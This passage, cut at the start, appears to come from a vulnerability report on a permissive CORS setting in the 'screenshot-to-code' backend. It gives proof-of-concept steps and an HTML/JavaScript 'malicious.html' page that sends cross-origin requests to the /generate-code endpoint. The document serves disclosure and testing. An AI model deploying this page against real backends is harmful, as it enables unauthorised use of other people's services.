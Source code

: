     2. Create a simple HTML file (malicious.html) and host it on a different domain or port than the frontend application (e.g., `http://malicious-website.com`).
    3. Include the following JavaScript code in `malicious.html` to make a cross-origin request to the `/generate-code` endpoint of the deployed `screenshot-to-code` backend:
       ```html
       <!DOCTYPE html>
       <html>
       <head>
           <title>Malicious Website</title>
       </head>
       <body>
           <h1>Malicious Website</h1>
           <button id="exploitButton">Trigger Exploit</button>
           <script>
               document.getElementById('exploitButton').addEventListener('click', function() {
                   fetch('http://localhost:7001/generate-code', { // Replace with the actual backend URL if different from localhost:7001
                       method: 'POST',
                       headers: {
                           'Content-Type': 'application/json'
                       },
                       body: JSON.stringify({
                           image: 'data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAUAAAAFCAYAAACNbyblAAAAHElEQVQI12P4//8/w38GIAXDIBKE0DHxgljNBAAO9TXL0Y4OHwAAAABJRU5ErkJggg==', // Example base64 encoded PNG - a 5x5 transparent pixel
                           stack: 'html_tailwind'
                       }),
                       mode: 'cors' // Explicitly set mode to 'cors' for clarity
                   })
                   .then(response => response.json())
                   .then(data => {
                       alert('Request successful! Response: ' + JSON.stringify(data));
                   })
                   .catch(error => {
                       alert('Request failed! Check console for details.');
                       console.error('Error:', error);
                   });
               });
           </script>
       </body>
       </html>
       ```
    4. Open `malicious.html` in a web browser from `http://malicious-website.com`.
    5. Click the "Trigger Exploit" button.
    6. Observe that an alert box appears displaying "Request successful!" and the JSON response from the `/generate-code` API endpoint. Check the browser's developer console to confirm no CORS errors were encountered.
    7. If the request is successful and no CORS errors are reported, it confirms that the permissive CORS configuration (`allow_origins=["*"]`) allows cross-origin requests from `http://malicious-website.com` to the `screenshot-to-code` backend API.
